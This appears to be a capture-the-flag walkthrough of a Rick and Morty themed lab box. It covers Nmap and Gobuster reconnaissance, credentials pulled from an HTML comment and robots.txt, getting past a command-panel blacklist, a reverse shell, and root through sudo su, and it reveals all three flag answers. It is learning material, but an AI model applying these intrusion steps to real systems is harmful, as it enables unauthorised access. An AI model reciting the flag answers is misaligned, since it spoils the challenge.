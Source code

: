 # Overview
![overview](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/f67c7a7c-6787-46f3-859d-8bb653caa7eb)


# Question-1
```
What is the first ingredient that Rick needs?
```
- Let start by scanning the IP Address `10.10.54.104` with Nmap
### Nmap Results
```bash
┌──(kali㉿kali)-[~]
└─$  nmap -A 10.10.54.104       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 08:46 EST
Nmap scan report for 10.10.54.104
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:d1:f5:44:fc:f9:82:e6:94:df:f6:bf:4f:97:0b:62 (RSA)
|   256 29:7f:d0:f1:28:c5:cc:c8:0c:d5:0f:dd:fa:7e:83:2e (ECDSA)
|_  256 5b:00:f3:24:7a:0e:45:39:42:a8:fe:99:75:09:e5:ae (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.43 seconds
```

From the scan result i see a web server is running i.e`port 80` . Let check it out:
![webcheck](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/9762c829-963e-4d8a-8959-30a2a6dd5021)

There is nothing interesting on the web page so i decide to check the page source:
![webchecksrc](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/0c53bc52-019b-488d-a6de-cfef08c6774d)

and Boom i got a very important information(a username) from the HTML comment:
```html
  <!--
    Note to self, remember username!
    Username: R1ckRul3s
  -->
```

Then i decided to brute-force for directories using gobuster and i also added some extension switch to the command:
### Gobuster result
```bash
┌──(kali㉿kali)-[/usr/share/wordlists/dirbuster]
└─$ gobuster dir -u http://10.10.54.104 -w directory-list-2.3-medium.txt -x txt,html,css,cgi,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.54.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              css,cgi,php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 292]
/.php                 (Status: 403) [Size: 291]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.54.104/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```
from the output, what i see that robot.txt is available so i use the browser to check if there is any disallow entries:
![robots](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/3aa58445-eff9-4fc0-a74a-94cde2ada7a2)

this is strange robots.txt doesn't contain a string like this, but i note my findings:
```
Wubbalubbadubdub
```

from the Gobuster output we also have a login page i.e `login.php` :
![login1](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/3efac5e6-053c-43e3-9c61-c76ca83ff4ac)

because i have no other info and the rest of the pages need a user to be logged in before viewing them i tried the username i got earlier and the string i found from`robots.txt` as the password because there is No harm in trying ): 
![login2](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/bfc50816-b25f-4c6e-9405-87545e4e43b9)

Boom i am logged in and i was brought to a command panel page(hopefully get RCE or a reverse shell?) i don't know ):
and also i don't have access to other pages, only the command page is available for us:
![denied](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/185d67be-2b10-43e3-90f4-80316d4c7701)

typing `ls` in the command panel prompt i got the list of files and directory in the current web-root file path `/var/www/html`
![ls](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/374a3a6c-10a3-4ecd-b60a-db490a79f916)

then i try to read the first file `Sup3rS3cretPickl3Ingred.txt` but it not working, i use different method of reading file but i am getting same error message, it seems like there is list of commands that can't be executed `blacklist`:
![noread](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/b7f66bbb-84e0-4ee8-93c2-b2c06f9f05bb)

i researched for possible ways to read a file, and found Grep `grep . example.txt` and `grep -R .` :
i used the first grep method to read the the `Sup3rS3cretPickl3Ingred.txt` and i was able to see the first answer(ingredient)
![ingredient1](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/32c61762-e7a7-4a9a-bd54-a7ddcad598ea)

```bash
command: grep . Sup3rS3cretPickl3Ingred.txt

output: mr. meeseek hair
```

i also used the second method of reading files with grep but it returned back the out of all the file `ALL`
![all](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/c6060714-c1d1-4658-9e24-df7cd76d107c)

it doesn't look nice to read but viewing the page source is much better
![clue](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/d0aafb95-e1ab-4b62-925b-9f58a9184827)

from the output of clue.txt `Look around the file system for the other ingredient.`
it will be hard to do that with the limited executable commands.
but scrolling down the source page i found the php code that is actively disallowing some command:
![blacklist](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/94d80100-2392-460e-8cc8-860be5ee3669)

and the list of commands isn't that big so i can work with this.
# Getting a reverse shell
going to [Online-Reverse shell generator](https://www.revshells.com/) i used different payloads but the one that worked is the python3 payload
![payload](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/6a2e85d8-2621-4cda-b399-0ca9a6d08de4)

![id](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/4f6ee430-3801-45a0-b154-070e6a47bc73)

# Mini-privilege Escalation
running sudo -l and noticed that www-data can run anything with sudo:
![su](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/f756886b-0780-44a0-8a74-994f447e434b)

then i switched to root with `sudo su` and found the 3rd ingredient in `/root`
![ingredient3](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/d9dba17e-a9d2-4344-91e7-d56c0f345292)

```bash
www-data@ip-10-10-54-104:/var/www/html$ sudo su
sudo su
root@ip-10-10-54-104:/var/www/html# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-54-104:/var/www/html# cd /root
cd /root
root@ip-10-10-54-104:~# ls
ls
3rd.txt  snap
root@ip-10-10-54-104:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice <--- 
root@ip-10-10-54-104:~# 
```
lastly i moved to the /`home/rick` directory and found the second ingredient:
![ingredient2](https://github.com/Hassans-Sec/Hassans-sec.github.io/assets/139691745/f52eabb1-5017-4942-b107-8dbf24f59931)

```bash
root@ip-10-10-54-104:~# cd /home
cd /home
root@ip-10-10-54-104:/home# ls
ls
rick  ubuntu
root@ip-10-10-54-104:/home# cd rick
cd rick
root@ip-10-10-54-104:/home/rick# ls
ls
second ingredients
root@ip-10-10-54-104:/home/rick# cat second\ ingredinets
cat second\ ingredinets
cat: 'second ingredinets': No such file or directory
root@ip-10-10-54-104:/home/rick# cat *
cat *
1 jerry tear <---
root@ip-10-10-54-104:/home/rick# 
```

===**And that all, isn't this fun?** === 

